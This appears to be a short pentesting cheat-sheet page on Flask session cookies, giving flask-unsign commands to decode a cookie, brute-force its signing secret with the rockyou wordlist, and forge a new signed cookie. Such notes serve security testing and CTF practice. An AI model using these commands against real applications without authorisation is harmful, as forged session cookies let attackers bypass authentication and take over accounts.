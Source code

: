 ```yaml
---
title: "Flask Cookie"
date: 2024-6-27
tags: ["flask", "python", "cookie", "sign", "unsign"]
---
```


---
### flask-unsign

```bash
pip3 install flask-unsign
```

```bash
# Decode flask cookie
flask-unsign --decode --cookie <COOKIE>
```

```bash
# Brute force secret key
flask-unsign --unsign --cookie <COOKIE> -w /usr/share/wordlists/rockyou.txt --no-literal-eval
```

```bash
# Forge flask cookie
flask-unsign --sign --cookie <COOKIE_DATA> --secret <SECRET>
```

<br>